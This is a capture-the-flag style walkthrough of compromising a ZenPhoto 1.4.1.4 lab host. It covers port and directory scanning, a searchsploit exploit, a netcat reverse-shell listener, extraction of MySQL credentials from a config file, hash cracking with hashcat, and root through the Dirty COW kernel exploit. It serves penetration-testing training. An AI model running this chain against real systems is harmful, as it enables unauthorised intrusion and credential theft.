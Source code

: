 # ZenPhoto - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed several open services:
```
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 83:92:ab:f2:b7:6e:27:08:7b:a9:b8:72:32:8c:cc:29 (DSA)
|_  2048 65:77:fa:50:fd:4d:9e:f1:67:e5:cc:0c:c6:96:f2:3e (RSA)
23/tcp    open  ipp           CUPS 1.4
| http-server-header: CUPS/1.4
| http-methods:
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
80/tcp    open  http          Apache httpd 2.2.14 ((Ubuntu))
|_http-server-header: Apache/2.2.14 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
3306/tcp  open  mysql         MySQL (unauthorized)
```

From this scan, I identified that the target was running Ubuntu Linux with several services:
- OpenSSH 5.3p1
- CUPS 1.4 printing service (unusually on port 23)
- Apache 2.2.14 web server
- MySQL database server

### Web Enumeration
I began investigating the web server on port 80 with directory enumeration:
```bash
gobuster dir -u http://192.168.X.X -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

This revealed a ZenPhoto installation at the root directory. ZenPhoto is an open-source gallery CMS application. Looking at the version information in the footer, I identified it as ZenPhoto 1.4.1.4.

### Vulnerability Research
Research indicated that ZenPhoto 1.4.1.4 is vulnerable to several critical vulnerabilities:
1. Multiple PHP file upload vulnerabilities
2. Remote Code Execution via third-party library flaws
3. SQL injection vulnerabilities

The most critical vulnerability is a remote code execution in the image upload functionality (CVE-2012-5978).

## Gaining Initial Access

### Exploiting ZenPhoto
I downloaded a public exploit for ZenPhoto 1.4.1.4:
```bash
searchsploit -m php/webapps/18083.php
```

This exploit takes advantage of a file upload vulnerability in the TinyMCE editor component of ZenPhoto.

I modified the exploit to point to my target and set up a listener:
```bash
nc -lvnp 4444
```

Then executed the exploit:
```bash
php 18083.php http://192.168.X.X/
```

This uploaded a PHP web shell to the server and provided me with a reverse shell connection as the www-data user.

### Post-Exploitation Enumeration
After gaining an initial foothold, I stabilized the shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

I began enumerating the system for potential privilege escalation vectors:
```bash
find / -perm -u=s -type f 2>/dev/null
```

## Database Enumeration
I found database credentials in the ZenPhoto configuration file:
```bash
cat /var/www/zenphoto/zp-core/zp-config.php
```

This revealed the following credentials:
- **Database**: zenphoto
- **Username**: zenphoto
- **Password**: zenph0t0

I connected to the MySQL server to extract further information:
```bash
mysql -u zenphoto -p'zenph0t0' -D zenphoto
```

I extracted user credentials from the administrators table:
```sql
SELECT * FROM administrators;
```

This revealed an admin user with a hashed password, which I cracked using hashcat:
```bash
hashcat -m 300 --force hash.txt /usr/share/wordlists/rockyou.txt
```

## Privilege Escalation

### Kernel Exploitation
System enumeration revealed outdated kernel information:
```bash
uname -a
Linux ubuntu 2.6.32-21-generic #32-Ubuntu SMP i686 GNU/Linux
```

This kernel version (2.6.32) is vulnerable to multiple local privilege escalation vulnerabilities, including Dirty COW (CVE-2016-5195).

I downloaded and compiled the Dirty COW exploit:
```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

Executed the exploit with a custom password:
```bash
./dirty password123
```

The exploit created a new root user in /etc/passwd with the specified password.

I switched to the newly created root user:
```bash
su firefart
```

This provided a root shell, successfully completing the challenge.

```bash
uid=0(root) gid=0(root) groups=0(root)
```


